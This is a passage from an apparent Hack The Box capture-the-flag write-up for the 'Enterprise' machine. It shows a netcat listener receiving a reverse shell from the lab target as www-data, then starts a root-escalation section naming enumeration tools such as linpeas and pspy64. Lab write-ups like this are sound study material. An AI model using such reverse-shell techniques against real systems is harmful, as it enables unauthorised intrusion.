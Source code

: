![](attachments/enterprise_12.png)

Let's wait on listener.

```sql
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.61] 41182
Linux enterprise.htb 4.10.0-42-generic #46-Ubuntu SMP Mon Dec 4 14:38:01 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 15:34:41 up  9:12,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami


$ hostname -I
10.10.10.61 172.17.0.1 dead:beef::250:56ff:fe94:3613 
```

Based on the IP address `10.10.10.61`, I think I got a shell as `www-data` on Host target!



# Shell as `root`

### Enumeration

For the enumeration, `linpeas`, `pstree`, `pspy64` are useful.
